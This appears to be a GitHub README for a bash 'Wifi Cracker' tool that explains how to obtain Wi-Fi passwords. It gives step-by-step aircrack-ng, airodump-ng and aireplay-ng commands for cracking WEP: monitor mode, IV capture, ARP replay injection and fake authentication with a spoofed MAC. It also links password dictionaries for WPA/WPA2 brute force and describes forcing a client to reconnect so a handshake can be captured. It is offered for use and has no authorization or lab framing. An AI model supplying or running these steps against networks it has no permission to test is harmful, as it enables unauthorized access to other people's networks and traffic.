




#**Wifi Cracker**

##Program made in bash that allows you to obtain Wifi's passwords.

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing

###Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:
 
###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol
 
```airmon-ng start wlp2s0 or airmon-ng start wlan0```
 
###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)
 
```airodump-ng -w datos wlp2s0 ó airodump-ng -w datos wlan0```
 
###where '-w datos' indicates the file name where data will be saved
 
###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data. 

###For example:
 
```airodump-ng --ivs -w datos -c 11 wlp2s0 ó airodump-ng --ivs -w datos -c 11 wlan0```
 
###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.
 
```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 ó aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```
 
###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.
 
###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.
 
```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```
 
###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.
 
###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.
 
```aircrack-ng -0 datos-01.ivs```
 
###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows: 
 
```aircrack-ng -0 -n 64 datos-01.ivs```
 
###where '-n 64' indicates for example the length of WEP password.
 
###When aircrack-ng ends, he show us the WEP password on screen.

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have



###Otherwise, routter password appears



###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:



###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:




